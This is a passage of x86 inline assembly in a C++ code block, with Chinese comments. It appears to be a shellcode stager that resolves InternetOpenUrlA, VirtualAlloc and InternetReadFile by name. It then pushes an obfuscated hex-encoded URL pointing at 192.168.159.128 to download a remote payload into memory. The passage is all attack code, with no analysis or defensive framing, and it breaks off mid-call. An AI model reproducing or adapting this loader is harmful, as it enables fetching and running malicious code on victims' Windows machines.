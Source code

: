 ```c++
        push 0x65746e49
        push esp
        push edi
        call edx
        add esp, 0x14           //清除堆栈
        push eax                //保存InternetOpenUrlA

        xor edx, edx
        push edx
        mov [esp], 0x20000000
        mov edx, dword ptr[esp + 0xc]
        push 0x636f6c6c
        push 0x416c6175
        push 0x74726956
        push esp
        push ebx
        call edx
        add esp, 0x10   //清除堆栈
        push eax        //保存VirtualAlloc

        xor edx, edx
        push edx
        mov edx, dword ptr[esp + 0x10]
        push 0x656c6946
        push 0x64616552
        push 0x74656e72
        push 0x65746e49
        push esp
        push edi
        call edx
        add esp, 0x14   //清除堆栈  
        push eax        //保存InternetReadFile

        //到这里都是获取函数地址，后面就是调用函数

        mov edx, dword ptr [esp+0xc]
        push 0
        push 0
        push 0
        push 1
        push 0
        call edx

        mov edx, dword ptr[esp + 0x8]
        mov ecx,esp
        mov esp,ebp
        add esp, 0x20
        push 0x0069764b
        push 0x322f3832
        push 0x312e3935
        push 0x312e3836
        push 0x312e3239
        push 0x312f2f3a
        push 0x70747468
        mov esp, ecx
        push 0
        push 0x04000000
        push 0
        push 0
        mov ecx, ebp
        add ecx, 4
        push ecx
        push eax
```